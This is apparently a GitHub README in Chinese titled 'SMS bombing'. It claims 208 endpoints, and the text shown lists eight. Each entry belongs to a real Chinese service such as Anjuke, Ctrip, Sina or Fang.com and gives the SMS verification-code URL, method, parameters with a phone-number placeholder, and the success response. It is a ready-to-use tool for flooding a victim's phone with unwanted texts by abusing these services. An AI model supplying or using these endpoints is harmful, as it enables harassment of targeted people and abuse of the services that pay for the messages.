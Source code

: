 # SMS bombing
轰炸接口 (2017-07-30)
接口数量：  208


传送方式：get<br />
html名称：安居客
html：http://m.anjuke.com/general/sendphonecode?phone=手机号&captcha=
参数：
返回值："0"

传送方式：post<br />
html名称：携程
html：http://ct.ctrip.com/me/register/Verify
参数：name=%E5%B0%8F%E7%8E%8B&email=xiaowng%40qq.com&mobile=手机号&passwd=aA123456
返回值：true

传送方式：post<br />
html名称：班班应用
html：http://www.banban.im/index.php/ajax/sendsmsbydownload
参数：mobile=手机号
返回值：:1,"

传送方式：post<br />
html名称：新浪
html：http://passport.show.sina.com.cn/moblie_send.php
参数：mobile=手机号&type=5
返回值：:1,"

传送方式：get<br />
html名称：农商一号
html：http://m.nsyh001.com/user/ajax/Btnmobileverify?user_name=手机号
参数：
返回值：":0

传送方式：get<br />
html名称：房天下
html：https://passport.fang.com/loginsendmsm.api?callback=jQuery17108587668964173645_时间戳031&mobilephone=手机号&service=newhouse-open-web&mathcode=&_=时间戳912
参数：
返回值：Succ

传送方式：get<br />
html名称：么么直播
html：http://user.memeyule.com/authcode/send_mobile?mobile=手机号&type=1&callback=jQuery18303737469934858382_时间戳187&_=时间戳240
参数：
返回值：":1

传送方式：get<br />
html名称：轻加
html：http://ws.sythealth.com/wsbyte/fit/v4/sms/validatorcode?form=0&account=手机号
参数：
返回值：":0
